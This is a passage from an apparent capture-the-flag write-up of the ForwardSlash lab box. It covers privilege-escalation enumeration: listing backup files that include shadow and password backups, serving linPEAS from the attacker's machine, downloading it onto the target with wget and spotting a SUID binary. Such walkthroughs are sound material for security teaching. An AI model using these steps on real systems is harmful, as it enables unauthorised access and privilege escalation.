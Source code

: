 ### System enumeration

Let's see what is inside `/var/backups/`:

```
chiv@forwardslash:~$ ls -lhA /var/backups/
total 804K
-rw-r--r-- 1 root root            60K Mar 24 06:25 alternatives.tar.0
-rw-r--r-- 1 root root            38K Mar 24 06:17 apt.extended_states.0
-rw-r--r-- 1 root root           4.1K Mar  6 14:17 apt.extended_states.1.gz
-rw-r--r-- 1 root root           3.9K Mar  5 14:46 apt.extended_states.2.gz
-rw------- 1 pain pain            526 Jun 21  2019 config.php.bak
-rw-r--r-- 1 root root            437 Mar  5 14:07 dpkg.diversions.0
-rw-r--r-- 1 root root            207 Mar  5 14:47 dpkg.statoverride.0
-rw-r--r-- 1 root root           653K Mar 24 06:17 dpkg.status.0
-rw------- 1 root root            730 Mar 17 20:13 group.bak
-rw------- 1 root shadow          604 Mar 17 20:13 gshadow.bak
-r--r--r-- 1 root root            129 May 27  2019 note.txt
-rw------- 1 root root           1.7K Mar  5 14:46 passwd.bak
drwxrwx--- 2 root backupoperator 4.0K May 27  2019 recovery
-rw------- 1 root shadow         1.2K Mar  6 14:21 shadow.bak
```

There are:

- `config.php.bak` owned by pain
- `note.txt` which is world readable
- `recovery` folder owned by the `backupoperator` group

The only thing we can read for now is `note.txt`:

```
Chiv, this is the backup of the old config, the one with the password we need to actually keep safe. Please DO NOT TOUCH.

-Pain
```

Let's try to enumerate more with the help of linPEAS (from [PEASS][PEASS]).

We have `/usr/share/peass/linPEAS/linpeas.sh`, let's just serve it via HTTP:

```
$ ruby -run -e httpd /usr/share/peass/linPEAS/ -p 8888
[2020-07-05 20:13:39] INFO  WEBrick 1.6.0
[2020-07-05 20:13:39] INFO  ruby 2.7.1 (2020-03-31) [x86_64-linux]
[2020-07-05 20:13:39] INFO  WEBrick::HTTPServer#start: pid=117003 port=8888
```

Now let's download it on the box:

```
chiv@forwardslash:/tmp/cyfun$ wget http://10.10.15.32:8888/linpeas.sh
chiv@forwardslash:/tmp/cyfun$ chmod u+x linpeas.sh
```

In the SUID section we can see an unusual `/usr/bin/backup`.
